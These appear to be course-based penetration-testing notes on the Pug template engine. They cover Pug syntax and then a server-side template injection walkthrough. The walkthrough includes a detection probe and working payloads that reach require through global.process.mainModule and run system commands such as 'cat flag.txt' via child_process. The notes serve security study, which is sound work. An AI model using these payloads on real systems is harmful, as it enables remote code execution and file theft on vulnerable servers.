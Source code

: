 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pug

## Syntax

> _The content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

{% hint style="info" %}
Pug is commonly integrated with the Express framework in a NodeJS application.
{% endhint %}

Pug is specially-designed to generate HTML files and that is why it has syntax for specifying an HTML tag and tag attributes. Some things to note:

* Pug requires the first word to be the HTML tag that will wrap the following data (e.g. `h1`).
* It allows us to pass tag attributes within parantheses after the tag declaration (`input(type='hidden' name='admin' value='true')`.
* Keywords like `if` and `else` are not treated as HTML tags.
* Puge can execute JavaScript code directly.
  * With the dash character (`-`) the code will be executed by the JavaScript engine and the output won't be displayed (**unbuffered code**) (`- secret = ['❤️','😍', '🤟']`).
  * With the equal sign (`=`) the code will be execute and the output will be displayed (**buffered code**) (`= secret = ['❤️','😍', '🤟']`).

```pug
h1 Hello, #{name}
input(type='hidden' name='admin' value='true')
 
if showSecret
  - secret = ['❤️','😍', '🤟']
  p The secrets are: 
  each val in secret
    p #{val}
  else
    p No secret for you!
```

## SSTI

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

Pug requires each line to start with an HTML tag and it uses JavaScript which handles in a non-strict way. Thus, we can use a simple payload such as `#{7*'7'}` and it is executed to `49` and wrapped around `<>`, we can infer that Pug is used (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_ssti_pug_1.png" alt=""><figcaption><p>Figure 1: Enumerating a Pug templating engine.</p></figcaption></figure>

Pug is typically rendering on the server-side and since we know that it uses NodeJS, we can use the `child_process.spawnSync` command to execute system commands. The `child_process` module is not available by default, but we can import it via the `require`function, if the latter exists (Figure 2).

```pug
= require
```

<figure><img src="../../../../.gitbook/assets/web_ssti_pug_2.png" alt=""><figcaption><p>Figure 2: Checking if direct access to the <code>require</code> function is available.</p></figcaption></figure>

It seems that we don't have direct access to `require` but we can still access it through `global.process.mainModule` (Figure 3).

```pug
= global.process.mainModule.require
```

<figure><img src="../../../../.gitbook/assets/web_ssti_pug_3.png" alt=""><figcaption><p>Figure 3: Accessing <code>require</code> via the <code>global</code> object.</p></figcaption></figure>

Next, we can use `require` to import [`child_process`](https://nodejs.org/api/child\_process.html#child\_processspawnsynccommand-args-options), and use the latter for execute system commands (Figure 4).

```pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('ls').stdout
```

<figure><img src="../../../../.gitbook/assets/web_ssti_pug_4.png" alt=""><figcaption><p>Figure 4: Executing system commands via the Pug templating engine.</p></figcaption></figure>

To read the flag we need to pass the file as a command argument.

```pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('cat',['flag.txt']).stdout
```
